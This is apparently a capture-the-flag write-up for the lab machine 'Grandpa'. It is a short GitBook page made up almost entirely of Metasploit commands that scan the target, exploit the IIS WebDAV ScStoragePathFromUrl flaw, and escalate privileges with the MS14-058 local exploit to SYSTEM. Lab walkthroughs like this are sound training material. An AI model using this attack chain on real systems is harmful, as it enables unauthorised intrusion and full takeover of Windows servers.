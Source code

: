 ```yaml
---
cover: ../../../../.gitbook/assets/Grandpa.png
coverY: 255.85066666666665
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Grandpa

```bash
kali@kali> service postgresql start && msfconsole

msf6> workspace -a grandpa
msf6> setg rhosts 10.129.95.233
msf6> setg lhost 10.10.14.61
msf6> db_nmap -sV -sC -O 10.129.95.233
```

<figure><img src="../../../../.gitbook/assets/001.png" alt=""><figcaption></figcaption></figure>

```bash
msf6> search type:exploit name:iis
msf6> use exploit/windows/iis/iis_webdav_scstoragepathfromurl
msf6> run

meterpreter> sysinfo  # throw error
# CTRL+Z

msf6> use multi/recon/local_exploit_suggester
msf6> set session 1
msf6> run
```

<figure><img src="../../../../.gitbook/assets/002.png" alt=""><figcaption></figcaption></figure>

```bash
msf6> use exploit/windows/local/ms14_058_track_popup_menu
msf6> set session 1
msf6> set lport 4445
msf6> run

meterpreter> getuid  # NT AUTHORITY\SYSTEM
```
